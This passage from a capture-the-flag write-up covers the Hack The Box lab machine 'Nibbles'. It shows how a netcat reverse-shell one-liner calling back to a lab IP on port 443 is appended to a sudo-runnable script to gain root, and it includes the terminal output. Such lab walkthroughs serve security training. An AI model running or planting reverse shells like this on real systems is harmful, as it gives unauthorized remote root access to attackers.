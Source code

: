 ```terminal
nibbler@Nibbles:/home/nibbler/personal/stuff$ cp monitor.sh monitor.sh.bak
nibbler@Nibbles:/home/nibbler/personal/stuff$ echo 'rm /tmp/lol;mkfifo /tmp/lol;nc 10.10.14.241 443 0</tmp/lol | /bin/sh -
i 2>&1 | tee /tmp/lol' | tee -a monitor.sh
rm /tmp/lol;mkfifo /tmp/lol;nc 10.10.14.241 443 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol
```

> It is important that any modifications made are done so at the **end** of the script.
 Placing them earlier might cause the script to overwrite or otherwise interrupt the
 changes we've made, causing problems down the line.
{: .prompt-warning }

We use `tail` to make sure that the command was added correctly:

```terminal
nibbler@Nibbles:/home/nibbler/personal/stuff$ tail -n 5 monitor.sh
rm /tmp/osrelease /tmp/who /tmp/ramcache /tmp/diskusage
}
fi
shift $(($OPTIND -1))
rm /tmp/lol;mkfifo /tmp/lol;nc 10.10.14.241 443 0</tmp/lol | /bin/sh -i 2>&1 | tee /tmp/lol
```

Looks like it's all there! Now, after we make sure to start a new `netcat` session
 listening on our new port (443), we use `sudo` to run the script[^sudo]:

```terminal
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh
```

Back on our `netcat` we see a connection has been made. We make sure to check the new user `id`:

```terminal
# id
uid=0(root) gid=0(root) groups=0(root)
```

Another success! All that's left to do is grab the `root.txt` flag:

```terminal
# cat root.txt
<flag-value>
```

Flag captured! That's it for this machine, although if this were a real customer, we'd proceed
 to do more recon and see what damage could be done with `root` access on this specific target,
 especially if we were testing a whole corporate network and not just a single machine.

## Wrap-Up

This was a fun box. I really enjoyed getting to manually exploit the vulnerabilities in this.
 As an exercise, I went back and looked at the `metasploit` option provided by the `exploitdb`
 entry. It basically does the same thing that we did here, creating a reverse shell by uploading
 an `image.php` file and executing it. It was _much_ faster, but the experience gained by going
 about this more manually was worth the extra time. HTB has a [great writeup](https://academy.hackthebox.com/module/77/section/854) on it if you want to look into it further.


[^nibbles]: Nibbles is a retired machine, which means it has publicly available walkthroughs
[^wsl2]: Open a Powershell window (running as admin) and create a port proxy
[^habits]: There are some red team exercises where you want to gain access as quickly as
[^bak]: Notice that the first command here creates a backup of the `monitor.sh` script. We
[^sudo]: Notice that we have to specify the full path. When trying to use the relative path,